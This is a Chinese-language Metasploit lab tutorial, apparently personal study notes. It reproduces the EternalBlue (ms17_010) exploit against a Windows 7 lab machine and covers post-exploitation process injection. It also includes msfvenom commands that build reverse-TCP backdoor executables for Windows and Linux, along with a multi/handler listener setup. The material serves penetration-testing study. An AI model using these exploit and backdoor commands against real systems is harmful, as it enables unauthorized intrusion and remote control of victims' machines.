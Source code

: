 # 1.基本Metasploit使用

## 使用方式

### 使用模块 - user [module name]

不知道模块具体名称可以使用`search`搜索

### 配置模块必选项 - set [option_name]

不知道具体选项可以使用`show option`

### 运行模块 - run

## 2.永恒之蓝复现

搜索ms17_010

![image-20241112221025457](Metasploit/image-20241112221025457.png)

要进行使用可以`use [module name]`或者use 前面的序号

使用`show options`查看需要配置的选项

![image-20241112221211481](Metasploit/image-20241112221211481.png)

配置完对应的选项之后run即可，关闭win7靶机的防火墙即可成功

![image-20241112221537960](Metasploit/image-20241112221537960.png)

这里的攻击载荷是`meterpreter`

也可以设置不同的攻击载荷

### 后渗透环节

可以使用help查看当前可以使用的命令

![](Metasploit/image-20241112222608904.png)

靶机使用的不是管理员用户，使用个人用户，但我们得到的权限是管理员用户，想要在个人用户下进行后渗透操作需要进行降权

查看当前的id，将进程注入到用户操作去

![image-20241112222856761](Metasploit/image-20241112222856761.png)

# 2.正篇

## 1.msfvenom生成木马后门

所有参数

```
┌──(root💀kali)-[~/桌面]
└─# msfvenom -h
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

选项：
-l, --list           <type>       列出 [type] 的所有模块。类型有：payloads、encoders、nops、platforms、archs、encrypt、formats、all
-p, --payload        <payload>    要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。为自定义指定“-”或 STDIN
    --list-options                列出 --payload <value> 的标准、高级和规避选项
-f, --format         <format>     输出格式（使用 --list 格式列出）
-e, --encoder        <encoder>    要使用的编码器（使用 --list 编码器列出）
    --service-name   <value>      生成服务二进制文件时使用的服务名称
    --sec-name       <value>      生成大型 Windows 二进制文件时使用的新部分名称。默认值：随机 4 个字符的字母字符串
    --smallest                    使用所有可用的编码器生成尽可能小的有效载荷
    --encrypt        <value>      应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
    --encrypt-key    <value>      用于 --encrypt 的密钥
    --encrypt-iv     <value>      --encrypt 的初始化向量
-a, --arch           <arch>       用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
    --platform       <platform>   --payload 的平台（使用 --list 平台列出）
-o, --out            <path>       将有效负载保存到文件
-b, --bad-chars      <list>       避免使用的字符示例：'\x00\xff'
-n, --nopsled        <length>     将 [length] 大小的 nopsled 添加到有效负载上
    --pad-nops                    使用 -n <length> 指定的 nopsled 大小作为总负载大小，自动预先添加数量的 nopsled（nops 减去负载长度）
-s, --space          <length>     结果有效载荷的最大大小
    --encoder-space  <length>     编码负载的最大大小（默认为 -s 值）
-i, --iterations     <count>      设置有效载荷的编码次数
-c, --add-code       <path>       指定要包含的附加 win32 shellcode 文件
-x, --template       <path>       指定用作模板的自定义可执行文件
-k, --keep                        保留 --template 行为并将有效负载作为新线程注入
-v, --var-name       <value>      指定用于某些输出格式的自定义变量名称
-t, --timeout        <second>     从 STDIN 读取有效负载时等待的秒数（默认为 30，0 表示禁用）
-h, --help                        显示此消息 

```

windows可执行程序后门

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o liao.exe
```

Linux可执行后门

```
msfvenom -p linux/x64/reverse_tcp lhost=192.168.137.129 lport=443 R>shell.php
```

> -p 设置攻击载荷
>
> windows/x64/meterpreter/reverse_tcp 系统/架构/作用/方式 方式一般选择反向TCP连接，让目标连接本机
>
> lhost lport设置监听本地机器的ip和端口
>
> -f format
>
> -o output

使用模块开启监听

```
use exploit/multi/handler
```

设置pyload

```
set payload windows/x64/meterpreter/reverse_tcp
```

设置模块必选项 ip 端口

```
set lhost 192.168.137.147
set lport 6688
```

运行模块 

```
run
```

